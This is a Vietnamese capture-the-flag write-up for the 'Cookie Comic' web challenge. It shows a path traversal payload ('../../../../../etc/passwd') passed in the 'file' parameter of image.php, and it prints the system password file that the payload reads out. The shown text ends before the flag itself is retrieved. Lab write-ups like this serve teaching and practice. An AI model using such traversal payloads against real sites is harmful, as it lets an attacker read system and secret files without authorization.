



# Path Traversal

**Tên challenge:** Cookie Comic

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/cookie-comic)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Flag Location: /flag.txt. Flag Format: CHH{XXX}

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website khá đơn giản, chỉ có 1 bức ảnh và các nút bấm điều chỉnh lướt ảnh:



Khi ta thử click vào 1 trong các button bên dưới ảnh thì trên URL của Website xuất hiện thêm 1 parameter `comic`. Có thể parameter này sẽ xuất hiện lỗi nên ta thử chèn payload `Path Traversal` và các lỗi bảo mật khác để thử.

**B2:** Ta thử đổi giá trị của parameter `comic` thành `../../../../../etc/passwd` thì kết quả chẳng có gì.



Ngoài ra, khi thử các payload về các lỗi bảo mật khác có dính dáng tới parameter thì cũng chẳng thu được gì.

Nhưng khi ta đọc Source code của Website thì ta lại phát hiện có thêm 1 đường dẫn mới
```
/image.php?file=20240709/346850200.jpg&credits=cookiehanhoan
```

**B3:** Truy cập thử vào đường dẫn mới phát hiện



Đường dẫn này có tồn tại 2 parameter `file` và `credis`, ta tiếp tục thử các lỗi bảo mật khác lần lượt với 2 parameter trên.

**B4:** Tiếp tục thay giá trị của parameter `file` thành payload `Path Traversal` `../../../../../etc/passwd` thì Website tải xuống cho ta 1 tệp có tên là `image.php`

Ta thử mở file `image.php` vừa được tải xuống thì nội dung lại là của file `/etc/passwd` của hệ thống Website.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
www:x:1000:1000::/home/www:/bin/sh
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
```
=> Xem ra file `image.php` đảm nhận nhiệm vụ xử lý input của URL và tìm đến file mà URL yêu cầu. Nếu file đó nằm ngoài các file được lập trình từ trước thì `image.php` sẽ đọc nội dung file đó, và tải xuống cho người yêu cầu.